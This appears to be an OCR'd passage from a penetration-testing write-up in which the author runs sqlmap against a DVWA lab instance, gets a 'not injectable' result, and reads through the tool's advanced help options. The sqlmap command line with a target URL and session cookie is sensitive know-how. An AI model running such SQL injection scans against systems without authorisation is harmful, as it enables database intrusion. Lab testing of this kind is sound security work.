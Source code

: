     C:\Users\Felix Ingram\Documents\development\sqlmap [master +1 ~0 -0 !]
    [8+]:>  py -2 .\sqlmap.py --proxy=http://127.0.0.1:8080 -u "http://192.168.253.133/dvwa/vulnerabilities/sqli/?id=Shamus&Submit=Submit#"
    -p id --dbms=mysql --cookie="PHPSESSID=mc2m3bbdca59a8k3vd81f7kqd1" --banner

        sqlmap/1.0-dev-991cafc - automatic SQL injection and database takeover tool
        http://sqlmap.org

    ... snip ...

    [14:05:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
    [14:05:17] [WARNING] GET parameter 'id' is not injectable
    [14:05:17] [CRITICAL] all tested parameters appear to be not injectable. Try to increase '--level'/'--risk' values to perform more tests. As heuristic test turned out positive you are strongly advised to continue on with the tests. Please, consider usage of tampering scripts as your target might filter the queries. Also, you can try to rerun by providing either a valid value for option '--string' (or '--regexp')

    [*] shutting down at 14:05:17

So normal service has been resumed. I posed this question to one of the
developers and got the rather cryptic hint that the `-r` option was added as
people weren't passing the correct options in on the command line. So let's see
what else we could be using.

    [9+]:> py -2 .\sqlmap.py -hh
    Usage: .\sqlmap.py [options]

    Options:
    -h, --help            Show basic help message and exit
    -hh                   Show advanced help message and exit
    --version             Show program's version number and exit
    -v VERBOSE            Verbosity level: 0-6 (default 1)

    Target:
        At least one of these options has to be provided to set the target(s)

        -d DIRECT           Direct connection to the database
        -u URL, --url=URL   Target URL (e.g. "www.target.com/vuln.php?id=1")
        -l LOGFILE          Parse targets from Burp or WebScarab proxy logs
        -m BULKFILE         Scan multiple targets enlisted in a given textual file
        -r REQUESTFILE      Load HTTP request from a file
        -g GOOGLEDORK       Process Google dork results as target URLs
        -c CONFIGFILE       Load options from a configuration INI file

    Request:
        These options can be used to specify how to connect to the target URL

        --data=DATA         Data string to be sent through POST
        --param-del=PDEL    Character used for splitting parameter values

None of those seem useful.

        --cookie=COOKIE     HTTP Cookie header

We're already using this one.

        --load-cookies=L..  File containing cookies in Netscape/wget format
        --drop-set-cookie   Ignore Set-Cookie header from response
        --user-agent=AGENT  HTTP User-Agent header
        --random-agent      Use randomly selected HTTP User-Agent header
        --host=HOST         HTTP Host header
        --referer=REFERER   HTTP Referer header
        --headers=HEADERS   Extra headers (e.g. "Accept-Language: fr\nETag: 123")
        --auth-type=ATYPE   HTTP authentication type (Basic, Digest, NTLM or Cert)
        --auth-cred=ACRED   HTTP authentication credentials (name:password)
        --auth-cert=ACERT   HTTP authentication certificate (key_file,cert_file)
        --proxy=PROXY       Use a HTTP proxy to connect to the target URL
        --proxy-cred=PCRED  HTTP proxy authentication credentials (name:password)
        --ignore-proxy      Ignore system default HTTP proxy